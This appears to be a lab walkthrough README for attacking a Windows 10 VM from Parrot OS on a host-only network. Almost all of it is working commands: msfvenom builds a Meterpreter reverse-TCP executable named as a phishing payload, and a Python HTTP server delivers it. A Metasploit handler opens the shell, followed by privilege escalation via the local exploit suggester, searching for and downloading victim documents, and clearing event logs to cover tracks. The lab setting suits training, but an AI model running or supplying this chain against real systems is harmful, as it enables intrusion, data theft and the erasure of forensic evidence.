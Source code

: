 ## Step 1: Lab Network Setup

- VirtualBox: Both Parrot OS and Windows VM set to `Host-only Adapter`
- Parrot IP: 192.168.XX.X
- Windows IP: 192.168.XX.X
- Ping test: Successful (Parrot can reach Windows)


### Network Configuration (VirtualBox)
1. Go to **File > Host Network Manager**, create `vboxnet0`.
2. Assign the following:
   - parrot os: `192.168.XX.X`
   - Windows 10: `192.168.XX.X`
3. Ensure both VMs are using **Host-Only Adapter** mode.

### Test Connectivity:
```bash
ping 192.168.XX.X   # From parrotOS

##
### Step 2: Payload Creation

Generate Meterpreter Payload:
mkdir payloads && cd payloads
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.XX.X LPORT=4444 -f exe -o phishing_payload.exe

## Step 3: HTTP Server for Delivery
Host Payload with Python:
python3 -m http.server 8080

On Windows Target:
Download the payload via browser:
http://192.168.XX.X:8080/phishing_payload.exe

##Step 4: Metasploit Handler
Start Metasploit:
msfconsole

Set Up Listener:
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.XX.X
set LPORT 4444
run -j


##Step 5: Initial Access & Meterpreter Shell
Once payload is executed from Windows:
sessions
sessions -i [ID]
getuid
sysinfo



## Step 6: Privilege Escalation
Migrate to Stable Process:
ps
migrate [PID]

Use Exploit Suggester:
background
use post/multi/recon/local_exploit_suggester
set SESSION [ID]
run

After successful privesc, confirm with:
getuid

##Step 7: File Search & Exfiltration
search -f *.docx

Download Files:
download C:\\Users\\Victim\\Documents\\secret.docx


##Step 8: Covering Tracks
Clear Windows Event Logs:
clearev

Delete Payload:
rm C:\\Users\\Victim\\Downloads\\phishing_payload.exe

